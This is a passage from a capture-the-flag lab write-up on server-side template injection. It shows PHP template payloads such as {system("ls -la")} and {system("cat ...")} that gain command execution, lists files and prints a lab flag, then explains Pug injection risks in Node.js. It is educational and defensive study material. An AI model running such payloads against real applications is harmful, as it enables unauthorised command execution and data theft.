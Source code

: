 ```php
{system("command")}
```

![](../images/Pasted%20image%2020250505174540.png)

As seen, the `RCE` works, let's read the files in the server directory:

```php
{system("ls -la")}
```

![](../images/Pasted%20image%2020250505174733.png)

We can now read the file:

```php
{system("cat 7c45b2d3a741398826f497d58b73a401.txt")}
```

![](../images/Pasted%20image%2020250505174808.png)

Our flag is:

```
THM{0739eea78f5c7f4b1690737c6258e38b}
```

# NodeJS - Pug
---

Pug (formerly known as Jade) is a high-performance template engine widely used in the Node.js community for its concise HTML rendering and advanced features like conditionals, iterations, and template inheritance. While Pug provides powerful tools for developers, its ability to execute JavaScript code directly within templates can pose significant security risks.  

Pug's security vulnerabilities primarily stem from its capability to interpolate JavaScript code within template variables. This feature, designed for dynamic content generation, can be exploited maliciously if user inputs are embedded into the template without proper sanitisation.

Developers must diligently sanitise and validate user inputs to mitigate these risks and ensure the security of applications using Pug.  

**Key Vulnerability Points:**

- **JavaScript Interpolation**: Pug allows embedding JavaScript directly within templates using interpolation braces `#{}`. If user input is interpolated without proper sanitization, it can lead to arbitrary code execution.
- **Default Escaping**: Pug does provide automatic escaping for certain inputs, converting characters like `<`, `>`, and `&` to their HTML entity equivalents to prevent XSS attacks. However, this default behaviour does not cover all potential security issues, particularly when dealing with unescaped interpolation `!{}` or complex input scenarios.

### Exploitation

Before crafting a payload, it is important to confirm if the application indeed uses Pug. For example, go to [http://ssti.thm:8001/jade/](http://ssti.thm:8001/jade/).
